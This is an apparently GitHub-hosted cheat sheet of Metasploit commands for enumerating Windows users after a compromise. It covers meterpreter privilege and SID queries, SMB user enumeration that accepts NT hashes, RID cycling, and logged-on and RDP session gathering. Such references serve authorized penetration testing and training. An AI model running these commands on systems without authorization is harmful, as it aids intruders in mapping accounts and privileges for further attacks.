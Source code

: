 # Metasploit

Search Tag(s): #post-exploitation #enumeration-and-discovery #metasploit-framework #windows

## 01 - Current User Enumeration

Discover current username.

```
meterpreter > getuid
```

Using interactive ruby shell to retrieve current username.

```
meterpreter > irb
>> client.sys.config.getuid
```

Check the user's privileges

```
meterpreter > getprivs

meterpreter > run post/windows/gather/win_privs
```

Enumerate local username is an administrator.

```
meterpreter > irb
>> client.railgun.shell32.IsUserAnAdmin()
```

Discover username's current SID

```
meterpreter > getsid
```

Using interactive ruby shell to retrieve current SID.

```
meterpreter > irb
>> client.sys.config.getsid
```

## 02 - Enumerate usernames

### 2.1 - SMB Port

```
msf > use auxiliary/scanner/smb/smb_enumusers

msf auxiliary(scanner/smb/smb_enumusers) > options

Module options (auxiliary/scanner/smb/smb_enumusers):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   DB_ALL_USERS  false            no        Add all enumerated usernames to the database
   RHOSTS                         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   SMBDomain     .                no        The Windows domain to use for authentication
   SMBPass                        no        The password for the specified username
   SMBUser                        no        The username to authenticate as
   THREADS       1                yes       The number of concurrent threads (max one per host)

msf auxiliary(scanner/smb/smb_enumusers) > set smbuser <username>

msf auxiliary(scanner/smb/smb_enumusers) > set smbpass <password | aad3b435b51404eeaad3b435b51404ee:<nt_hash>>

msf auxiliary(scanner/smb/smb_enumusers) > set rhosts <IP>

msf auxiliary(scanner/smb/smb_enumusers) > set smbdomain [<domain>]

msf auxiliary(scanner/smb/smb_enumusers) > set threads 4

msf auxiliary(scanner/smb/smb_enumusers) > run
```

### 2.2 - Interactive Session

Enumerate usernames from a directory (OPSEC safe).

```
meterpreter > ls C:/Users/

meterpreter > ls //<IP>/C$/Users/
```

## 02 - User Environment

### 2.1 - Modules

#### 2.1.1 - Post

```
msf > use post/multi/gather/env

msf post(multi/gather/env) > options

Module options (post/multi/gather/env):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on

msf post(multi/gather/env) > set session <session_ID>

msf post(multi/gather/env) > run
```

### 2.2 - Meterpreter

```
meterpreter > run post/multi/gather/env

meterpreter > run post/windows/gather/enum_powershell_env
```

## 03 - Logged On Users

```
meterpreter > run post/windows/gather/enum_logged_on_users
```

Enumerate RDP sessions.

```
meterpreter > run post/windows/gather/enum_termserv
```

## 04 - User enumeration via RID Cycling

Metasploit auxiliary bruteforce users via SID lookups.

```
msf > use auxiliary/scanner/smb/smb_lookupsid

msf auxiliary(scanner/smb/smb_lookupsid) > show actions 

Auxiliary actions:

       Name    Description
       ----    -----------
       DOMAIN  Enumerate domain accounts
   =>  LOCAL   Enumerate local accounts

msf auxiliary(scanner/smb/smb_lookupsid) > options

Module options (auxiliary/scanner/smb/smb_lookupsid):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   MaxRID  4000             no        Maximum RID to check
   MinRID  500              no        Starting RID to check


   Used when making a new connection via RHOSTS:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      no        The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads (max one per host)


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module on


Auxiliary action:

   Name   Description
   ----   -----------
   LOCAL  Enumerate local accounts



View the full module info with the info, or info -d command.

msf auxiliary(scanner/smb/smb_lookupsid) > set action local

msf auxiliary(scanner/smb/smb_lookupsid) > set smbuser <username>

msf auxiliary(scanner/smb/smb_lookupsid) > set smbpass <password | aad3b435b51404eeaad3b435b51404ee:<nt_hash>>

msf auxiliary(scanner/smb/smb_lookupsid) > set smbdomain [<domain>]

msf auxiliary(scanner/smb/smb_lookupsid) > set rhosts <target_IP>

msf auxiliary(scanner/smb/smb_lookupsid) > set minrid <min_id_range>

msf auxiliary(scanner/smb/smb_lookupsid) > set maxrid <max_id_range>

msf auxiliary(scanner/smb/smb_lookupsid) > set threads 2

msf auxiliary(scanner/smb/smb_lookupsid) > run
```

## 05 - All in one go

```
meterpreter > run winenum
```